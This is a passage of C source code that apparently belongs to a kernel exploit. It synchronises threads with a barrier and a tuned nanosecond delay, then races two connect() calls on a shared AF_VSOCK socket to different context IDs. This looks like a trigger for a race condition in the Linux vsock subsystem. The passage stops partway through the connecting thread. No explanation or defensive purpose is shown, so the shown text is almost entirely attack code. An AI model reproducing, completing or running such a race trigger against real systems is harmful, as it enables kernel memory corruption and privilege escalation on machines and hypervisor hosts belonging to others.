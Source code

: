     int vsock = -1;
    int tfail = 0;
    pthread_barrier_t barrier;

    int thread_sync(long lag_nsec)
    {
        int ret = -1;
        struct timespec ts0;
        struct timespec ts;
        long delta_nsec = 0;

        ret = pthread_barrier_wait(&barrier);
        if (ret != 0 && ret != PTHREAD_BARRIER_SERIAL_THREAD) {
            perror("[-] pthread_barrier_wait");
            return EXIT_FAILURE;
        }

        ret = clock_gettime(CLOCK_MONOTONIC, &ts0);
        if (ret != 0) {
            perror("[-] clock_gettime");
            return EXIT_FAILURE;
        }

        while (delta_nsec < lag_nsec) {
            ret = clock_gettime(CLOCK_MONOTONIC, &ts);
            if (ret != 0) {
                perror("[-] clock_gettime");
                return EXIT_FAILURE;
            }

            delta_nsec = (ts.tv_sec - ts0.tv_sec) * 1000000000 +
                            ts.tv_nsec - ts0.tv_nsec;
        }

        return EXIT_SUCCESS;
    }

    void *th_connect(void *arg)
    {
        int ret = -1;
        long lag_nsec = *((long *)arg) * 1000;
        struct sockaddr_vm addr = {
            .svm_family = AF_VSOCK,
        };

        ret = thread_sync(lag_nsec);
        if (ret != EXIT_SUCCESS) {
            tfail++;
            return NULL;
        }

        addr.svm_cid = VMADDR_CID_LOCAL;
        connect(vsock, (struct sockaddr *)&addr, sizeof(struct sockaddr_vm));

        addr.svm_cid = VMADDR_CID_HYPERVISOR;
        connect(vsock, (struct sockaddr *)&addr, sizeof(struct sockaddr_vm));
